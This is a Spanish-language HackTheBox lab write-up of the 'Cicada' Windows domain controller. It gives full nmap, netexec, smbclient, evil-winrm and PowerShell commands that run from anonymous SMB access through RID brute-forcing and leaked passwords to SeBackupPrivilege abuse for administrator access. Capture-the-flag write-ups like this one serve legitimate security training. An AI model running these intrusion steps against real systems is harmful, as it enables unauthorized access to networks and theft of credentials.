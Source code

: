 ```yaml
---
layout: single
title: write up Cicada HTB
excerpt:
date: 2025-2-15
classes: wide
header:
  teaser: https://404zzero.github.io/zzero.github.io//assets/images/cicada/cicada_avatar.png
  teaser_home_page: true
categories:
  - hacking
  - Windows
  - Netexec
  - evil-winrm
  - Sebackupprivilege
  - Secretsdump
  - Impacket
  - Password Spray
  - hackthebox
tags:  
  - hacking
  - Windows
  - Netexec
  - evil-winrm
  - Sebackupprivilege
  - Secretsdump
  - Impacket
  - Password Spray
  - hackthebox
---
```


"Cicada" es una máquina de nivel fácil en la plataforma HackTheBox. La máquina ofrece una sesión como usuario invitado mediante el servicio SMB, el cual expone una contraseña por defecto para los nuevos usuarios. Realizamos un ataque de fuerza bruta sobre el RID para descubrir posibles usuarios y encontramos uno cuya contraseña se corresponde con la filtrada en el archivo. Con este nuevo usuario, conseguimos enumerar otros usuarios en el dominio o máquina, y uno de ellos tiene una nueva contraseña filtrada en su descripción. Este usuario es capaz de acceder a un recurso compartido adicional en SMB, donde se revelan las credenciales de otro usuario. Este tercer usuario puede conectarse a la máquina víctima a través de WinRM, obteniendo así acceso inicial. Ya dentro del sistema, descubrimos que el usuario tiene habilitado el privilegio SeBackupPrivilege, lo que le permite crear copias de archivos del sistema y extraer el hash NT del usuario Administrator. Con este hash, utilizamos un ataque Pass The Hash para suplantar al usuario Administrador, logrando así el control total sobre la máquina víctima.

lo primero como siempre el escaneo de nmap:

```bash
nmap -p- --open --min-rate 5000 -sT -Pn  -n -vvv 10.10.11.35 -oG allports
```

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214202729.png)

```bash
nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,5985,61563 10.10.11.35 -oN ports
```

```bash
# Nmap 7.94SVN scan initiated Sat Dec 14 15:11:03 2024 as: nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,5985,61563 -oN ports 10.10.11.35
Nmap scan report for CICADA-DC (10.10.11.35)
Host is up (0.033s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-14 20:14:10Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
61563/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h02m59s
| smb2-time: 
|   date: 2024-12-14T20:15:03
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 14 15:12:39 2024 -- 1 IP address (1 host up) scanned in 96.41 seconds
```

vale vemos que no hay ninguna web tirando por detras
pero por sim'ple vista vemos que se trara de un active directory de windows

por lo que para ver el nombre de la maquina y el nombre de dominio vamos a usar netexect

```bash
nxc smb 10.10.11.35
```
![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214203431.png)

vemos que se llama CICADA-DC y cicada.htb
por lo que los añadimos al /etc/hosts
![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214203608.png)
vale perfect

ahora vamos a verificar que exista el usuario anonmyous

```bash
nxc smb 10.10.11.35 -u 'anonmyous' -p ''
```

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214204117.png)

vemos que si
por lo que vamos a ver a que podemos acceder con este usuario usando smbmap

```bash
smbmap -H 10.10.11.35 -u 'anonymous'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214204326.png)

no se ve muy bien en la imagen pero tenemos acceso a HR y IPC$
si nos metemos en HR

```bash
smbclient \\\\10.10.11.35\\HR -U 'anonmyou'
```

vemos lo siguiente:

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214204555.png)

si nos bajamos el archivo

```smb
get "Notice from HR.txt"
```

dentro de el vemos esto

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214204917.png)
vemos una contraseña por lo que por ahora solo nos faltan los usuarios

podemos intentar sacarlos con fuerza bruta con netexect

```bash
nxc smb 10.10.11.35 -u 'anonmyous' -p '' --rid-brute
```

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214205325.png)

vemos varios usuarios. aqui o una de dos o los ponemos todos en un txt y lo usamos gunto a netexect o provamos uno a uno ( yo ya se que usuario es por lo que me salto todo esto)

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214205510.png)
y es valido con el usuario michael

ahora si enumeramos los usuarios con este usuario encontramos algo curioso

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214205705.png)

vemos que el usuario david.orelious en su descripcion tiene la contraseña
por lo que mas facil para mi

una vez echo podemos ver a que tiene acceso este usuario david.orelious con smbmap

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210149.png)

vemos que tenemos acceso a mas directorios
el mas interesante es el DEV por lo que vamos a ir a ese

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210422.png)

vemos un archivo  .ps1
nos lo bajamos y vemos que hay dentro
![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210512.png)

y otra vez vemos credenciales y ademas se una usuaria a la cual la podemos hacer un evil-winrm

por lo que 
```bash
evil-winrm -i 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210642.png)

estamos dentro

## root

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210921.png)

vemo que tenemos privilegio sobre los backups
lo cual se puede explotar para que nos deje acceder a cualquier directorio 
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

por lo que vamos a usar este exploit
https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post_page-----83ddcc0db5c7--------------------------------

lo subimos con python y una vez subido ejecutamos 

```powershell
. .\esc.ps1
```

y seguido podemos hacer el siguiente comando

```powershell
Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop
```
![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214211359.png)

y conseguimos el acceso

![](https://404zzero.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214211442.png)

